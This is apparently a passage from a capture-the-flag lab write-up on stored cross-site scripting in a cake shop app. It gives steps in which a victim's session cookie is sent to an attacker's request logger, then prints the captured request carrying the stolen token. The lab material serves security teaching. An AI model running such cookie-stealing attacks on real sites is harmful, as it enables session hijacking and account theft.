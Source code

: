 ## Victim Simulation

1. Open new browser session
2. Login as bob/bob.123
3. Click "MORE INFO" on the cake with the malicious comment
4. The page loads, image fails, JavaScript executes
5. Bob's cookie is sent to attacker's request logger

## Captured Request

```
GET /x-log/schoggi?cookie=token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiIwN2EzZThmNS00M2Q4LTRhZWMtOTA4Ni1iOWQ1OWE5ZTQ3ZWEiLCJ1aWQiOjEwMiwiZXhwIjoxNzYwNTYxMjg2fQ.lOvtjxE6Tth4XRuq2EK2Vcqkdzi8qlYJnmfOlrdLXbE HTTP/1.1
Host: logger-136f9d91-ef9a-4e8b-98c9-5e4ab7f27fc9.i.vuln.land
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/26.0.1 Safari/605.1.15
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9
Origin: https://b6e72d1f-eb59-44d9-820f-9895dfb297c7.i.vuln.land
Priority: u=3, i
Referer: https://b6e72d1f-eb59-44d9-820f-9895dfb297c7.i.vuln.land/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
X-Forwarded-For: 104.28.87.88
X-Forwarded-Host: logger-136f9d91-ef9a-4e8b-98c9-5e4ab7f27fc9.i.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: traefik.vuln.land
X-Real-Ip: 104.28.87.88
```
